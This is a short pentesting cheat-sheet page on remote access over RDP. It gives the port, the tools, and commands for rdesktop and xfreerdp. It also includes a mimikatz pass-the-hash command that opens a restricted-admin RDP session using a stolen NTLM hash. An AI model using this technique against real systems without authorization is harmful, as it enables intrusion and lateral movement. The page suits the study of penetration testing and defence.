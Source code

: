 


# Remote access
There are multiple ways to access machines remotely.


![Remote Access Cheat Sheet](./remote_access_cheat_sheet.png "Remote access cheat sheet")

## Remote Desktop Protocol (RDP)

**Port:** 3389/TCP
**Tools:** rdesktop, xfreerdp


### Implementations

```
rdesktop -g 80% 192.168.112.200

sudo aptitude install freerdp2-x11
xfreerdp /u:username /d:nameofdomain.local /p:[thehash] /v:10.1.1.1

sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

### Why is it not working?
